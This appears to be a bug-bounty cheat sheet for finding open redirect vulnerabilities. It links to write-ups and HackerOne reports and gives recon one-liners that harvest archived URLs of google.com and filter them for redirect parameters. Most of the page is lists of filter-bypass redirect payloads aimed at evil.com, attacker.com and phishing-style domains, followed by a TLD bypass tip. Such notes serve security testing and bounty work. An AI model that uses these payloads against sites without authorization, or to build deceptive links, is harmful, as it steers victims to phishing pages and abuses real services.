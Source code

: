 ## Notes on Open Redirect:

If you need better understanding on open redirection vulnerabilty read this awesome [blog](https://medium.com/bugbountywriteup/open-redirection-leads-to-a-bounty-d94029e11d17) by [@impratikdabhi](https://twitter.com/impratikdabhi). You can get more than 100 h1 open redirect reports from [here](https://github.com/reddelexc/hackerone-reports/blob/master/tops_by_bug_type/TOPOPENREDIRECT.md).

### gf-pattern:
Get it [here](https://github.com/muhe7/gf-pattern).

### One-Liner:
```
▶ gau http://google.com -s  | head -n 5000 > google.txt; cat google.txt | sort -u | grep -a -i \=http > google_redirects.txt


▶ waybackulrs google.com | gf open-redirect | tee google.txt
```

### Payloads: 
[wordlist](https://github.com/muhe7/Payloads)

#### Payloads from h1 reports:
```
///bing.com/?www.domain.com/?category=interview&page=2
#/path///google.com
//evil.com/
/evil.com/
///evil.com
http://evil.com
%2Fgoogle.com
%2Fgoogle%252Ecom
/216.58.217.206/calendar
/blackfan.ru/..;/css
https:/%5cblackfan.ru/
/www.google.com/%2f%2e%2e
%09http:///zeit.co%40google.com
%5cblackfan.ru
http://%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88/PugOfConcept/nopuppies.jpg
/blackfan.ru/%2f../
http%3a%2f%2fevil.com%2f
/\google.com
////wordpress.com
@google.com
<>//google.com
///;@www.google.com
%40evil.com/
//;@inexistantdomain.com
//www.google.com/%2e%2e
/\/\malicious-site.com
/youtube.com/%2F..
//www.google.com/%2f%2e%2e
%09/blackfan.ru
http:///@attacker.com//localhost
https://evildomain.xx/EvilFile.xx
//////////////////////hackerone.com
?continue[to]=//google.com
#//google.com/
example.com
```

#### Payloads from Twitter:
```
@%E2%80%AE@moc.elgoog
https://testurl.comPayload
https://testurl.com@%E2..
["http://Phishing.com"]
https://company[.]com.evil[.]org
website.com@google.com
www.targetweb.com.attackersite.com 
```

#### Effective Bypass:
```
▶ Use different TLD
company.net
company.com
company.xyz
```

#### Weird:
1. https://hackerone.com/reports/299403
2. https://hackerone.com/reports/140447





